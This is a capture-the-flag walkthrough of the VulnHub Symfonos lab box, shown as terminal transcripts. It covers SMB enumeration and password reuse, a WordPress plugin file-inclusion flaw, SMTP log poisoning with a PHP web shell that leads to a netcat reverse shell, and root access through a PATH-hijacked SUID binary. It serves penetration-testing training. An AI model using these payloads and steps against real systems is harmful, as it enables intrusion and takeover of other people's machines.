

We begin this box by anonymously logging into SMB. There is a file in the SMB share that lists off possible passwords. Then we look at port 139/rpc and find a username to try these passwords against. One of the passwords match the user we found and we are granted access to another share in SMB. The new SMB share gives a hint to look at a hidden web directory that leads to a wordpress page. We exploit an LFI in a wordpress plugin being used in conjunction with SMTP poisoning to get a shell. We then privesc to root by exploiting a SUID executable calling for another executable without using an absolute path.
┌──(kali㉿kali)-[~/Documents/VulnHub/symfonos]
└─$ sudo nmap -p- 10.0.0.13
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-15 15:44 EDT
Nmap scan report for 10.0.0.13
Host is up (0.000072s latency).
Not shown: 65530 closed ports
PORT STATE SERVICE
22/tcp open ssh
25/tcp open smtp
80/tcp open http
139/tcp open netbios-ssn
445/tcp open microsoft-ds
MAC Address: 00:0C:29:33:BD:FB (VMware)
Nmap done: 1 IP address (1 host up) scanned in 8.44 seconds
┌──(kali㉿kali)-[~/Documents/VulnHub/symfonos]
└─$ sudo nmap -p22,25,80,139,445 -sV -sC 10.0.0.13 -oN script_tcp
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-15 15:46 EDT
Nmap scan report for 10.0.0.13
Host is up (0.00020s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
| 2048 ab:5b:45:a7:05:47:a5:04:45:ca:6f:18:bd:18:03:c2 (RSA)
| 256 a0:5f:40:0a:0a:1f:68:35:3e:f4:54:07:61:9f:c6:4a (ECDSA)
|_ 256 bc:31:f5:40:bc:08:58:4b:fb:66:17:ff:84:12:ac:1d (ED25519)
25/tcp open smtp Postfix smtpd
|_smtp-commands: symfonos.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8,
| ssl-cert: Subject: commonName=symfonos
| Subject Alternative Name: DNS:symfonos
| Not valid before: 2019-06-29T00:29:42
|_Not valid after: 2029-06-26T00:29:42
|_ssl-date: TLS randomness does not represent time
80/tcp open http Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).
139/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open netbios-ssn Samba smbd 4.5.16-Debian (workgroup: WORKGROUP)
MAC Address: 00:0C:29:33:BD:FB (VMware)
Service Info: Hosts: symfonos.localdomain, SYMFONOS; OS: Linux; CPE: cpe:/o:linux:linux_kernel
Host script results:
|_clock-skew: mean: 1h39m59s, deviation: 2h53m12s, median: 0s
|_nbstat: NetBIOS name: SYMFONOS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery:
| OS: Windows 6.1 (Samba 4.5.16-Debian)
| Computer name: symfonos
| NetBIOS computer name: SYMFONOS\x00
| Domain name: \x00
| FQDN: symfonos
|_ System time: 2021-09-15T14:46:29-05:00
| smb-security-mode:
| account_used: guest
| authentication_level: user
| challenge_response: supported
|_ message_signing: disabled (dangerous, but default)
| smb2-security-mode:
| 2.02:
|_ Message signing enabled but not required
| smb2-time:
| date: 2021-09-15T19:46:29
|_ start_date: N/A
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.23 seconds
/VulnHub/symfonos]
└─$ smbmap -H 10.0.0.13
[+] Guest session IP: 10.0.0.13:445 Name: 10.0.0.13
Disk Permissions Comment
---- ----------- -------
print$ NO ACCESS Printer Drivers
helios NO ACCESS Helios personal share
anonymous READ ONLY
IPC$ NO ACCESS IPC Service (Samba 4.5.16-Debian)
┌──(kali㉿kali)-[~/Documents/VulnHub/symfonos]
└─$ smbclient //10.0.0.13/anonymous
Enter WORKGROUP\kali's password:
Try "help" to get a list of possible commands.
smb: \> ls
. D 0 Fri Jun 28 21:14:49 2019
.. D 0 Fri Jun 28 21:12:15 2019
attention.txt N 154 Fri Jun 28 21:14:49 2019
19994224 blocks of size 1024. 17305340 blocks available
smb: \> get attention.txt
getting file \attention.txt of size 154 as attention.txt (150.4 KiloBytes/sec) (average 150.4 KiloBytes/sec)
┌──(kali㉿kali)-[~/Documents/VulnHub/symfonos]
└─$ cat attention.txt
Can users please stop using passwords like 'epidioko', 'qwerty' and 'baseball'!
Next person I find using one of these passwords will be fired!
-Zeus
┌──(kali㉿kali)-[~/Documents/VulnHub/symfonos]
└─$ rpcclient 10.0.0.13 -U '' 1 ⨯
Enter WORKGROUP\'s password:
rpcclient $> enumdomusers
user:[helios] rid:[0x3e8]
We find out that the user helios exists. We note this down along with the possible passwords we found earlier. We go back to SMB and attempt to login using the user helios and the passwords we found in "attention.txt". The password qwerty appears to work.
┌──(kali㉿kali)-[~/Documents/VulnHub/symfonos]
└─$ smbmap -H 10.0.0.13 -u helios -p qwerty
[+] IP: 10.0.0.13:445 Name: 10.0.0.13
Disk Permissions Comment
---- ----------- -------
print$ READ ONLY Printer Drivers
helios READ ONLY Helios personal share
anonymous READ ONLY
IPC$ NO ACCESS IPC Service (Samba 4.5.16-Debian)
┌──(kali㉿kali)-[~/…/VulnHub/symfonos/exfiltrated/SMB_helios]
└─$ smbclient //10.0.0.13/helios -U helios
Enter WORKGROUP\helios's password:
Try "help" to get a list of possible commands.
smb: \> ls
. D 0 Fri Jun 28 20:32:05 2019
.. D 0 Fri Jun 28 20:37:04 2019
research.txt A 432 Fri Jun 28 20:32:05 2019
todo.txt A 52 Fri Jun 28 20:32:05 2019
19994224 blocks of size 1024. 17263724 blocks available
smb: \> prompt off
smb: \> mget *
getting file \research.txt of size 432 as research.txt (210.9 KiloBytes/sec) (average 210.9 KiloBytes/sec)
getting file \todo.txt of size 52 as todo.txt (520000.0 KiloBytes/sec) (average 236.3 KiloBytes/sec)
┌──(kali㉿kali)-[~/Documents/VulnHub/symfonos/WebEnum]
└─$ cat 10.0.0.13 | grep -v 403
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url: http://10.0.0.13
[+] Method: GET
[+] Threads: 10
[+] Wordlist: /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt
[+] Negative Status codes: 404
[+] User Agent: gobuster/3.1.0
[+] Timeout: 10s
===============================================================
2021/09/15 15:54:07 Starting gobuster in directory enumeration mode
===============================================================
/. (Status: 200) [Size: 328]
/manual (Status: 301) [Size: 307] [--> http://10.0.0.13/manual/]
===============================================================
2021/09/15 15:54:09 Finished
===============================================================
┌──(kali㉿kali)-[~/Documents/VulnHub/symfonos/WebEnum]
└─$ sudo vi /etc/hosts
┌──(kali㉿kali)-[~/Documents/VulnHub/symfonos/WebEnum]
└─$ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 kali
10.0.0.13 symfonos.local
# The following lines are desirable for IPv6 capable hosts
::1 localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
┌──(kali㉿kali)-[~/Documents/VulnHub/symfonos/WebEnum]
└─$ wpscan --url http://symfonos.local/h3l105/ 1 ⨯
_______________________________________________________________
__ _______ _____
\ \ / / __ \ / ____|
\ \ /\ / /| |__) | (___ ___ __ _ _ __ ®
\ \/ \/ / | ___/ \___ \ / __|/ _` | '_ \
\ /\ / | | ____) | (__| (_| | | | |
\/ \/ |_| |_____/ \___|\__,_|_| |_|
WordPress Security Scanner by the WPScan Team
Version 3.8.18
Sponsored by Automattic - https://automattic.com/
@_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________
[+] URL: http://symfonos.local/h3l105/ [10.0.0.13]
[+] Started: Wed Sep 15 16:52:50 2021
Interesting Finding(s):
[+] Headers
| Interesting Entry: Server: Apache/2.4.25 (Debian)
| Found By: Headers (Passive Detection)
| Confidence: 100%
[+] XML-RPC seems to be enabled: http://symfonos.local/h3l105/xmlrpc.php
| Found By: Direct Access (Aggressive Detection)
| Confidence: 100%
| References:
| - http://codex.wordpress.org/XML-RPC_Pingback_API
| - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
| - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
| - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
| - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/
[+] WordPress readme found: http://symfonos.local/h3l105/readme.html
| Found By: Direct Access (Aggressive Detection)
| Confidence: 100%
[+] Upload directory has listing enabled: http://symfonos.local/h3l105/wp-content/uploads/
| Found By: Direct Access (Aggressive Detection)
| Confidence: 100%
[+] The external WP-Cron seems to be enabled: http://symfonos.local/h3l105/wp-cron.php
| Found By: Direct Access (Aggressive Detection)
| Confidence: 60%
| References:
| - https://www.iplocation.net/defend-wordpress-from-ddos
| - https://github.com/wpscanteam/wpscan/issues/1299
[+] WordPress version 5.2.2 identified (Insecure, released on 2019-06-18).
| Found By: Rss Generator (Passive Detection)
| - http://symfonos.local/h3l105/index.php/feed/, <generator>https://wordpress.org/?v=5.2.2</generator>
| - http://symfonos.local/h3l105/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.2.2</generator>
[+] WordPress theme in use: twentynineteen
| Location: http://symfonos.local/h3l105/wp-content/themes/twentynineteen/
| Last Updated: 2021-07-22T00:00:00.000Z
| Readme: http://symfonos.local/h3l105/wp-content/themes/twentynineteen/readme.txt
| [!] The version is out of date, the latest version is 2.1
| Style URL: http://symfonos.local/h3l105/wp-content/themes/twentynineteen/style.css?ver=1.4
| Style Name: Twenty Nineteen
| Style URI: https://wordpress.org/themes/twentynineteen/
| Description: Our 2019 default theme is designed to show off the power of the block editor. It features custom sty...
| Author: the WordPress team
| Author URI: https://wordpress.org/
|
| Found By: Css Style In Homepage (Passive Detection)
|
| Version: 1.4 (80% confidence)
| Found By: Style (Passive Detection)
| - http://symfonos.local/h3l105/wp-content/themes/twentynineteen/style.css?ver=1.4, Match: 'Version: 1.4'
[+] Enumerating All Plugins (via Passive Methods)
[+] Checking Plugin Versions (via Passive and Aggressive Methods)
[i] Plugin(s) Identified:
[+] mail-masta
| Location: http://symfonos.local/h3l105/wp-content/plugins/mail-masta/
| Latest Version: 1.0 (up to date)
| Last Updated: 2014-09-19T07:52:00.000Z
|
| Found By: Urls In Homepage (Passive Detection)
|
| Version: 1.0 (100% confidence)
| Found By: Readme - Stable Tag (Aggressive Detection)
| - http://symfonos.local/h3l105/wp-content/plugins/mail-masta/readme.txt
| Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
| - http://symfonos.local/h3l105/wp-content/plugins/mail-masta/readme.txt
[+] site-editor
| Location: http://symfonos.local/h3l105/wp-content/plugins/site-editor/
| Latest Version: 1.1.1 (up to date)
| Last Updated: 2017-05-02T23:34:00.000Z
|
| Found By: Urls In Homepage (Passive Detection)
|
| Version: 1.1.1 (80% confidence)
| Found By: Readme - Stable Tag (Aggressive Detection)
| - http://symfonos.local/h3l105/wp-content/plugins/site-editor/readme.txt
[+] Enumerating Config Backups (via Passive and Aggressive Methods)
Checking Config Backups - Time: 00:00:00 <==============================================================================================================================================================> (137 / 137) 100.00% Time: 00:00:00
[i] No Config Backups Found.
[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register
[+] Finished: Wed Sep 15 16:52:53 2021
[+] Requests Done: 174
[+] Cached Requests: 5
[+] Data Sent: 46.931 KB
[+] Data Received: 520.694 KB
[+] Memory used: 226.258 MB
[+] Elapsed time: 00:00:02
Towards the end of the results we see a couple plugins. "mail-masta" version 1.0 and "site-editor" version 1.1.1. When I check searchsploit I find an LFI for both of these plugins. I choose to go with the site-editor one.
┌──(kali㉿kali)-[~/Documents/VulnHub/symfonos/WebEnum]
└─$ searchsploit mail masta
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Exploit Title | Path
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
WordPress Plugin Mail Masta 1.0 - Local File Inclusion | php/webapps/40290.txt
WordPress Plugin Mail Masta 1.0 - SQL Injection | php/webapps/41438.txt
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
┌──(kali㉿kali)-[~/Documents/VulnHub/symfonos/WebEnum]
└─$ searchsploit site editor 1.1.1
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Exploit Title | Path
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Drupal Module CKEditor < 4.1WYSIWYG (Drupal 6.x/7.x) - Persistent Cross-Site Scripting | php/webapps/25493.txt
WordPress Plugin Site Editor 1.1.1 - Local File Inclusion | php/webapps/44340.txt
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
The web page output the /etc/passwd file, so we know the LFI works. Now we need to find a way to exploit the LFI to RCE. This brings us back to port 25, SMTP. In order to take advantage of the LFI we found we will use SMTP poisoning. We will send an email to helios that contains a web shell. Then we will go back to the LFI to access the web shell.
┌──(kali㉿kali)-[~/Documents/VulnHub/symfonos/WebEnum]
└─$ telnet 10.0.0.13 25
Trying 10.0.0.13...
Connected to 10.0.0.13.
Escape character is '^]'.
220 symfonos.localdomain ESMTP Postfix (Debian/GNU)
HELO example.com
250 symfonos.localdomain
mail from: hacker@example.com
250 2.1.0 Ok
rcpt to: helios@symfonos.localdomain
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
subject:
<?php echo shell_exec($_GET['cmd']); ?>
.
250 2.0.0 Ok: queued as 86B5A406B8
quit
221 2.0.0 Bye
Connection closed by foreign host.
There is a lot of output on this page, but towards the end we see our email. Right after the word "Subject:" we can see our commands being executed.
Now I set my listener on port 80 and use netcat for a reverse shell.
This works and I get a reverse shell.
┌──(kali㉿kali)-[~/Documents/VulnHub/symfonos/WebEnum]
└─$ nc -lvnp 80 130 ⨯
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::80
Ncat: Listening on 0.0.0.0:80
Ncat: Connection from 10.0.0.13.
Ncat: Connection from 10.0.0.13:34188.
id
uid=1000(helios) gid=1000(helios) groups=1000(helios),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev)
helios@symfonos:/opt$ strings statuscheck
/lib64/ld-linux-x86-64.so.2
libc.so.6
system
__cxa_finalize
__libc_start_main
_ITM_deregisterTMCloneTable
__gmon_start__
_Jv_RegisterClasses
_ITM_registerTMCloneTable
GLIBC_2.2.5
curl -I H
http://lH
ocalhostH
AWAVA
AUATL
[]A\A]A^A_
;*3$"
GCC: (Debian 6.3.0-18+deb9u1) 6.3.0 20170516
crtstuff.c
__JCR_LIST__
deregister_tm_clones
...
...
...
In order to exploit this we will create a malicious curl executable and then add the location of this malicious curl to our PATH before the location of the legitimate curl command.
int main() {
setuid(0);
system("/bin/bash -p");
}
#gcc -o <curl> <curl.c>
helios@symfonos:/tmp$ export PATH=/tmp:$PATH